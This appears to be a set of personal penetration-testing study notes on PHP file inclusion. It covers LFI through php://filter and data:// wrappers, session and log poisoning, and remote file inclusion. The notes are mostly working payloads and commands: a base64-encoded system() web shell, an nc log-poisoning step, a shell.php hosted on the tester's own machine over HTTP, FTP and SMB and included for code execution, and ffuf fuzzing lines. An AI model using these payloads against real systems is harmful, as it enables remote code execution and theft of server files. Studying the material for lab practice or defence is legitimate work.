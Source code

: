 ![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### Check if wrappers are supported
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.
```
allow_url_include = On
```

[[php]]
##### PHP Wrappers
* https://www.php.net/manual/en/wrappers.php.php
* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `php://filter/read=convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`



![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

###### Session poisoning files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL with LFI vulnerability to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
[[log poison]]
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```
or poison User-Agent header


Then using LFI vulnerability to access the log file.
log files:
`/var/log/apache2/access.log`
`C:\xampp\apache\logs\`
`/var/log/nginx/ `
`C:\nginx\log\`

or for User-Agent header:
```
Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

other logs:
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

LFI fuzz
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

##### LFI
[[LFI]]
`dataserver=file:///etc/passwd`

#### RFI
[[RFI]]
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Verify RFI
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
or
`try and include a URL`, and see if we can get its content

RCE with RFI [[RCE]]
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

python3 -m http.server 8000
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:8000/shell.php&cmd=id
```
or host our script via ftp
```shell
sudo python -m pyftpdlib -p 21

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

host via smb [[SMB]]
```bash
impacket-smbserver -smb2support share $(pwd)
```
open
```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

RCE via file upload [[RCE]]
1. upload a php script (look File upload section)
2. use LFI methos to  `?language=./uploads/shell.gif&cmd=id`

LFI fuzzing
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters
/index.php?language=FUZZ
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

fuzzing server dirs [[ffuf]]
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

fuzz logs and configs of server
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LIF automation
https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy